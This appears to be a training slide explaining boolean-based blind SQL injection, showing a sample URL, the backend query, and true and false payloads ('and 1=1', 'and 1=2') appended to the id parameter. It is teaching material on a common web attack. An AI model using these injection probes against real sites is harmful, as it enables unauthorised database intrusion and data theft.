

# Boolean-Based Blind SQLi
Example URL:
www.random.com/app.php?id=1
Backend Query:
select	title	from	product	where	id	=1
Payload #1 (False):
www.random.com/app.php?id=1	and	1=2
Backend Query:
select	title	from	product	where	id	=1	and	1=2
Payload #2 (True):
www.random.com/app.php?id=1	and	1=1
Backend Query:
select	title	from	product	where	id	=1	and	1=1